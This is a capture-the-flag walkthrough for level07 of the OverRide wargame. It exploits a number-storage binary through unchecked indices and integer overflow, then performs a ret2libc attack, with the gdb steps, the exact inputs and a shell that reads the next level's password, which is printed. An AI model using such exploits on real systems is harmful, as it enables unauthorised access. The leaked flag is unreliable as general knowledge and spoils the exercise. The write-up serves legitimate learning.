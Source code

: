 # level07 walkthrough

## the binary
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 42
 Index: 42
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: read
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read
 Index: 42
 Number at data[42] is 0
 Completed read command successfully
 Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
```

## methodology
- ret2libc attack

As we observe the behaviour of the binary upon entering various inputs and the disassembled code, we realized several things:

- the main functionality lies in storing and reading numbers from an array
- there are 100 active number positions in the array
- there are no limits for the indices, so we can access stack memory
- some positions are protected (zero + indices divisible by 3)
- information in <code>env</code> and <code>argv</code> are overwritten before the storage interface is executed (= no shellcode)

We continue by printing the stack variables stored on indices greater than 100:
``` shell
level07@OverRide:/$ bash /tmp/print_stack.sh
tab[100]: 0x1
tab[101]: 0x64616572
tab[102]: 0x0
tab[103]: 0x0
tab[104]: 0x0
tab[105]: 0x0
tab[106]: 0xd18b1b00
tab[107]: 0xf7feb620
tab[108]: 0x0
tab[109]: 0x8048a09
tab[110]: 0xf7fceff4
tab[111]: 0x0
tab[112]: 0x0
tab[113]: 0x0
tab[114]: 0xf7e45513
tab[115]: 0x1
tab[116]: 0xffffd6c4
tab[117]: 0xffffd6cc
tab[118]: 0xf7fd3000
tab[119]: 0x0
tab[120]: 0xffffd61c
tab[121]: 0xffffd6cc
tab[122]: 0x0
tab[123]: 0x80482b8
tab[124]: 0xf7fceff4
tab[125]: 0x0
```

The <code>EIP</code> register resides on position 114, which is unfortunately reserved for Will.
- <code>EIP</code> tells the computer where to go next to execute the next command and controls the flow of a program
To access this position, we can use integer overflow:
```
UINT_MAX = 4294967295 (+ 1 for overflow)

4294967296 / 4 (int) + 114 = 1073741938

└─> accessing position 1073741938 allows us to store/read to confirm we operate on 114
```

Having access to <code>EIP</code> means we can try performing a ret2libc attack. We look for <code>system</code> and <code>/bin/sh</code> addresses only, as <code>exit</code> can be executed by the binary itself. The addresses are converted to decimal for storage in the array:
``` shell
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
└─> decimal: 4159090384

(gdb) find &system, +999999999, "/bin/sh"
0xf7f897ec
└─> decimal: 4160264172
```

Upon testing, we realize the functional position for <code>/bin/sh</code> is 116. This means that upon binary execution, we need to make these 2 changes:
```
position 114 = system address
└─> tab[1073741938] = 4159090384

position 116 = /bin/sh address
└─> tab[116] = 4160264172

quit command = exit address
```

## flag
``` shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

